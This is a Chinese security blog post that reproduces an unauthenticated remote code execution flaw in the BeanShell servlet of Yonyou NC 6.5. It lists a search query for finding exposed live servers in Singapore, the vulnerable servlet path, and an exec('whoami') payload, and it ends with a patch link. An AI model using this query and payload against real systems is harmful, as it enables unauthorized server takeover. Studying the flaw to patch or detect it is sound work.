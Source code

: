 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/XEaNNjYs2FJ5RruFwAiIrg)

**上方蓝色字体关注我们，一起学安全！**

**作者：****蚂蚁** **@Timeline Sec**

**本文字数：361**

**阅读时长：2～3min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

用友 NC 是面向集团企业的管理软件，其在同类市场占有率中达到亚太第一。  

**0x02 漏洞概述**  

  

用友 NC 由于对外开放了 BeanShell 接口，攻击者可以在未授权的情况下直接访问该接口，并构造恶意数据执行任意代码从而获取服务器权限。  

**0x03 影响版本**  

  

用友 NC6.5 版本  

**0x04 环境搭建**  

  

国外在线环境  

```
title=="YONYOU NC" && country="SG"
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgfo1p5qOx5JjUPyM1mkBb2VRMbLFNeDG86EHTTlKfdLpUbAUKBoln77qNJoc9uBtVXGpyEBgY0cw/640?wx_fmt=png)  

**0x05 漏洞复现**  

  

1、访问  

/servlet/~ic/bsh.servlet.BshServlet  

得到如图：

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVsgfo1p5qOx5JjUPyM1mkBb2x5APTG0WEmJ81DGbqbcnXQlsGCBxWrWzN8dYDqab0fxsibejKEPdokw/640?wx_fmt=jpeg)  

2、我们发现这里有执行代码的接口我们输入 payload 如：`exec("whoami");`即可看到命令执行成功  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgfo1p5qOx5JjUPyM1mkBb2q5GKyO5XbchHJnmLBb9TpBQI5OIfuwicKL87PGlnCVrYJL0JkWBwu7w/640?wx_fmt=png)  

**0x06 修复方式**  

  

该漏洞为第三方 jar 包漏洞导致，用友 NC 官方已发布安全补丁，建议使用该产品的用户及时安装该漏洞补丁包。  

补丁下载链接：

```
http://umc.yonyou.com/ump/querypatchdetailedmng? PK=18981c7af483007db179a236016f594d37c01f22aa5f5d19
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行
